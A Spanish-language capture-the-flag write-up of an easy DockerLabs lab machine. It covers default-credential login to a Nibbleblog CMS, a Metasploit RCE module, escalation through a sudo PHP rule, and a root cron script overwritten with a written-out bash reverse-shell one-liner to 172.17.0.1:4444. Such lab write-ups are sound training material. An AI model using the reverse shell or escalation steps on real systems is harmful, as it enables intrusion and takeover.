**IP**:  172.17.0.3
**S.O**: Linux
**Source:** DockeLabs
**Level:** Fácil
**Date:** 17 enero 2026
**Autor**:
**Descripción**: 

Web Enumeration
Nibbleblog Enumeration
Explotación Nibbleblog con Metasploit
[[Escalada de Privilegios#**Escalada de Privilegios mediante Sudo**]] - php
Enumeración del Sistema de Archivos
Enumeración de procesos
[[Escalada de Privilegios#**Escala de Privilegios mediante Cron Jobs]]

**Flags**:  


**Begin**:

---
### **Reconocimiento**:

Comenzamos haciendo un ping:

Hay conexión 
TTL: 64 -> Linux

Hacemos un escaneo de puertos

Puertos abiertos: 
Puertos 80 (HTTP)

Escaneo de versión al puertos específico 80. 


### **Enumeración**

Accedemos a la pagina web

El servidor respondió con la página por defecto de Apache2 en Debian

Realizamos un fuzzing de directorios.

No encontramos nada

Mirando el codigo fuente vemos un ruta llamada `/nibbleblog`


Accedemos a ella 

Dentro de la pagina tambien vemos tambien la ruta de `http://172.17.0.2/nibbleblog/admin.php`

Nos dirigimos ahí

Y vemos un formulario de login 

Probamos ingresar con las credenciales de `admin:admin`.
Y logramos ingresar.


Vemos la versión del CMS


La buscamos en `searchploit`

Y vemos que si es vulnerable aquella versión a un RCE y el exploit lo podemos encontrar en **Metasploit**.

Accedemos a **Metasploit**.


La buscamos.


### **Explotación**

Y usamos el `exploit 0`.
```bash
msf > use 0
```


Vemos las opciones que requiere para ejecutar el exploit.


Completamos las opciones requeridas.

Y le damos a `run`

Y logramos obtener una sesión meterpreter


### **Post-Explotación**

Listamos los permisos sudo

vemos que podemos ejecutar `/usr/bin/php` como chocolate sin necesidad de una contraseña.

Escalamos al usuario `chocolate` haciendo un llamado a una shell usando `/usr/bin/php`.


Hacemos una enumeración del Sistema de Archivos
En el directorio `/opt` encontramos un script.php


El cual vemos que se esta ejecutando en segundo plano

Vemos que el archivo `sript.php` el usuario **root** lo ejecuta cada 5s

Verificamos los permisos que tenemos sobre `script.php`

Vemos que podemos escribir

Entonces lo editamos poniéndole haciendo que invoque una reverse **shell** por en puerto `4444`.
```bash
echo '<?php exec("/bin/bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\""); ?>' > script.php
```


Ponemos el puerto en escucha y 5s luego nos da la **shell** con permisos de root.


Escalada exitosa a root.



